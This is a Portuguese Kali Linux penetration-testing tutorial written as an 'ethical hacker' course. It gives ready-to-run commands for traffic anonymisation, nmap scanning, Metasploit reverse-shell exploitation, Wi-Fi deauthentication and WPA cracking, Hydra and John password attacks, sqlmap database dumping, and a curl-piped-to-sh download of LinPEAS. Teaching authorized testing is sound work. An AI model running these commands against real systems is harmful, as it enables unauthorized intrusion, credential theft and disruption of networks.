

# 🛡️ Kali Linux Expert: Master Class Edition

Esta não é uma simples lista de comandos. Este é o seu **Manual de Guerra Digital**. Aqui, documentamos a ciência da intrusão, desde o anonimato absoluto até a escalação de privilégios em sistemas críticos.

---

## 📂 Metodologia Baseada no PTES (Penetration Testing Execution Standard)

A diferença entre um "Script Kiddie" e um Profissional é a ordem. Seguimos o fluxo oficial de inteligência:

---

## 🕵️ Módulo 1: O Preparo do Fantasma (Anonimato e Lab)

Antes de tocar em qualquer alvo, você deve ser invisível. Se o seu IP real for detectado, a missão falhou.

### 1.1 Configuração de Anonimato Sistemático
Usamos uma combinação de camadas para garantir que o tráfego nunca aponte para sua rede física.

| Ferramenta | Objetivo | Comando de Ativação |
| :--- | :--- | :--- |
| **MacChanger** | Troca o endereço físico da placa | `macchanger -r eth0` |
| **Anonsurf** | Roteia todo o sistema pelo TOR | `anonsurf start` |
| **ProxyChains** | Encadeia múltiplos Proxies | `proxychains nmap -sT [IP]` |

::: tip 💡 Configuração Master do Proxychains
Edite o arquivo `/etc/proxychains4.conf`. Descomente `dynamic_chain` e adicione proxies SOCKS5 no final do arquivo para aumentar a dificuldade de rastreio caso um dos nós caia.
:::

### 1.2 O Lab de Elite
Nunca use o Kali diretamente no seu hardware principal para testes.
- **Isolamento:** Use Network em modo **NAT Network** para criar uma subrede privada entre o Kali e o Alvo (Metasploitable/Vulnerable machines).
- **Snapshot:** Crie um ponto de restauração antes de cada teste pesado de instalação.

---

## 🔍 Módulo 2: O Olho de Hórus (Inteligência & Recon)

O Reconhecimento representa 70% de um Pentest bem sucedido. Se você conhece o alvo, o exploit é apenas uma consequência.

### 2.1 OSINT (Open Source Intelligence)
Coleta de dados sem enviar um único pacote para o servidor do alvo.

- **theHarvester:** Busca e-mails, subdomínios e nomes de funcionários em fontes públicas.
  - `theharvester -d alvo.com.br -b google,linkedin`
- **SpiderFoot:** O rei da automação de recon. Instale e rode via web para mapear ataques de superfície.

### 2.2 Nmap Masterclass (Active Recon)
Agora que sabemos quem é o alvo, vamos bater na porta.

| Flag | Tipo de Scan | Por que usar? |
| :--- | :--- | :--- |
| `-sS` | Stealth Scan (SYN) | Mais rápido e menos detectável que o `-sT`. |
| `-sV` | Version Detection | Crucial para buscar exploits específicos para aquela versão. |
| `-O` | OS Detection | Descobrir se é Linux ou Windows muda todo o seu arsenal. |
| `-T4` | Agressividade Tempo | Aumenta a velocidade (1 a 5). |

**Scan de Nível Profissional:**
`nmap -sS -sV -Pn -oN recon_completo.txt [IP_ALVO]`
*   `-Pn`: Pula o ping (muitos firewalls bloqueiam ping, mas deixam as portas abertas).
*   `-oN`: Salva o log no formato normal do nmap para consulta futura.

---

## ⚡ Módulo 3: Análise de Vulnerabilidades (O Ponto de Ruptura)

Depois do scan, usamos o **NSE (Nmap Scripting Engine)** para buscar fraquezas automaticamente.

**Comando para buscar vulnerabilidades críticas:**
`nmap --script vuln [IP_ALVO]`

::: warning 🛡️ Lição de Campo
Durante um teste real, o Nmap `-sA` (Ack scan) me mostrou que o firewall estava filtrando portas, mas o comando `nmap --script smb-vuln-ms17-010` confirmou que o servidor ainda era vulnerável ao EternalBlue. O firewall era bom, mas o sistema interno estava desatualizado!
:::

---

## 🕷️ Módulo 4: O Momento do Ataque (Exploitation)

Aqui é onde o reconhecimento se transforma em acesso. Usamos o **Metasploit Framework (MSF)** como nossa plataforma principal.

### 4.1 Metasploit Workflow Profissional
1.  **Abertura:** `msfconsole -q` (o `-q` é para carregar em modo silencioso/rápido).
2.  **Busca:** `search [serviço_ou_cve]` (ex: `search ms17_010`).
3.  **Seleção:** `use [caminho_do_exploit]`.
4.  **Configuração:**
    *   `set RHOSTS [IP_ALVO]` (Remote Host).
    *   `set LHOST [SEU_IP_VPN]` (Local Host para o Reverse Shell).
5.  **Execução:** `exploit` ou `run`.

### 4.2 Payloads: O Coração do Acesso
O Payload é o código que roda no alvo após a invasão.
- **Meterpreter:** O payload mais poderoso. Permite upload de arquivos, captura de tela, keylogging e pivotagem.
- **Staged vs Non-Staged:** 
    - `windows/x64/meterpreter/reverse_tcp` (Staged: envia em partes, mais difícil de detectar).
    - `windows/x64/meterpreter_reverse_tcp` (Non-Staged: envia tudo de uma vez).

---

## 📶 Módulo 5: Guerra Wireless (Aircrack-ng)

O hacking de Redes Wi-Fi exige que sua placa de rede suporte o **Modo Monitor**.

1.  **Habilitar Monitor:** `airmon-ng start wlan0`
2.  **Escaneamento:** `airodump-ng wlan0mon` (anote o BSSID e o Canal).
3.  **Captura de Handshake:** `airodump-ng -c [canal] --bssid [BSSID] -w captura wlan0mon`
4.  **Ataque de Deauth:** (Derruba o usuário para ele relogar e você pegar o aperto de mão).
    - `aireplay-ng --deauth 15 -a [BSSID] wlan0mon`
5.  **Quebra da Senha:** `aircrack-ng -w /usr/share/wordlists/rockyou.txt captura-01.cap`

---

## 🔐 Módulo 6: Quebra de Senhas (Brute Force)

Nem todo exploit é uma falha de sistema; às vezes a falha é a senha fraca.

### 6.1 John the Ripper (Quebra Offline)
Para quando você já tem o arquivo de hashes (ex: `/etc/shadow` do Linux).
`john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

### 6.2 Hydra (Quebra Online)
Para testar senhas em serviços ativos (SSH, FTP, HTTP).
`hydra -L usuarios.txt -P rockyou.txt [IP_ALVO] ssh`

::: tip 💡 Wordlist Master
A `rockyou.txt` é a bíblia. No Kali ela fica zipada em `/usr/share/wordlists/rockyou.txt.gz`. Descompacte com `gunzip` antes do primeiro uso!
:::

---

## 🚀 Módulo 7: Pós-Exploração & Escalação (O Próximo Nível)

Ganhar acesso como "usuário comum" é apenas metade do trabalho. Precisamos virar **ROOT** (Linux) ou **SYSTEM** (Windows).

### 7.1 Scripts de Automação de Escalação
- **LinPEAS:** O melhor script para procurar falhas de configuração no Linux.
  - `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
- **Pivoting:** Se você invadiu uma máquina em uma rede interna, use o `autoroute` do Meterpreter para acessar outras máquinas daquela rede que não estão na internet!

---

## 📝 Módulo 8: Documentação e Ética

Um Pentest sem relatório é apenas uma invasão. 
- **Evidências:** Print de cada passo.
- **Remediação:** Diga ao cliente como consertar.
- **Limpeza:** Remova seus backdoors e payloads após o teste.

::: info 🛡️ Caso Real: O Servidor Esquecido
Uma vez, em um teste, todas as máquinas principais estavam protegidas. Mas achei uma impressora antiga na rede. Ela tinha a senha padrão (`admin/admin`). Através dela, consegui acessar o servidor de logs e, por fim, a senha do Administrador da Rede. **Moral:** A segurança é tão forte quanto o seu elo mais fraco.
:::

---

---

## 🕸️ Módulo 9: Web Hacking (Burp Suite & SQLmap)

A web é onde a maioria das invasões acontece hoje.

### 9.1 SQL Injection com SQLmap
Se um parâmetro de URL (ex: `id=10`) estiver vulnerável, o SQLmap pode extrair todo o banco de dados.
`sqlmap -u "http://alvo.com/produto.php?id=10" --batch --dbs`
*   `--batch`: Aceita as opções padrão automaticamente.
*   `--dbs`: Lista os bancos de dados do servidor.

### 9.2 Interceptação com Burp Suite
O Burp Suite age como um "homem no meio" (Man-in-the-Middle) entre o seu navegador e o servidor.
1. Configure o Proxy no navegador para `127.0.0.1:8080`.
2. No Burp, aba **Proxy > Intercept ON**.
3. Capture a requisição e envie para o **Repeater** (`Ctrl+R`) para testar payloads sem precisar recarregar a página.

---

## 🕵️ Módulo 10: Sniffing e Engenharia Social

::: info 🛡️ Na Trincheira: Caso Real
Fui testar a rede de uma empresa e descobri que o sistema de ponto deles rodava em **HTTP** (sem o S). Usei o **Wireshark** para "ouvir" o tráfego e capturei o login e a senha do gerente em texto puro. **Lição:** Se não tiver cadeado verde no navegador, seus dados estão voando pelo ar para qualquer um pegar!
:::

---

## 📝 Check-list de Missão (Padrão Elite)

::: details 🛡️ Procedimento Padrão do Hacker Ético (Clique para expandir)
Antes de começar qualquer teste, verifique:
1. [ ] **VPN Ativa:** Sua identidade está mascarada?
2. [ ] **Logs de Sessão:** O comando `script log_sessao.txt` está rodando?
3. [ ] **Backups:** Você confirmou que o alvo tem backup caso o sistema trave?
4. [ ] **Autorização:** Você tem o documento assinado permitindo o teste?
:::

---

### Links de Referência Master
- [🐧 Domínio do Linux](/guias/Curso_Dominio_Linux) - Essencial para privilégios.
- [🌐 Redes de Computadores](/guias/Curso_Redes_Computadores) - Essencial para Pivoting.
- [🧪 Laboratório de Estudos](/estudos/Workbook_Estudo_Kali) - Pratique aqui.
